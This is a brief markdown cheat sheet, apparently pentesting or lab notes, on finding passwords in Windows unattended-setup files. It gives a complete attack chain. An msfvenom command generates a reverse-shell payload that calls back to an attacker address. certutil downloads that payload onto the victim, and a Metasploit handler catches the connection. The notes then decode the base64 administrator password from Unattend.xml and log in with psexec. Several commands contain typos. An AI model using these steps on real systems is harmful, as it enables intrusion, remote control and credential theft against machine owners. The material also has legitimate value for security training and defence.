 # Searching for passwords in Windows Configuration Files

Unattended Windows setup utility will allow you to work on multiple machines at once.

C:\Windows\Panther\Unattend.xml  
C:\Windows\Panther\Autounattend

1. Generate payload using msfvenom - ```msfvenom -p windows/x64/mterpreter/reverse_tcp LHOST=10.10.80.3 LPORt=1234 -f exe > payload.exe```
2. Setup webserver - ``python -m SimpleHTTPServer 80```
3. use certutil utility to download the payload (on victim)  - ```certutil -urlcache -f http://10.10.80.3/payload.exe payload.exe```
4. Setup Handler in Metasploit - exploit/multi/handler
5. Set options
- Set Payload
- Set LHOST
- Set LPORT

**Searching**
1. ```search -f Unattend.xml```
2. Once you cat out the file, copy and decode the password from base64
3. With the password, use psexec ```psexec.py Administrator@(targetIP)```
4. Provide decoded password

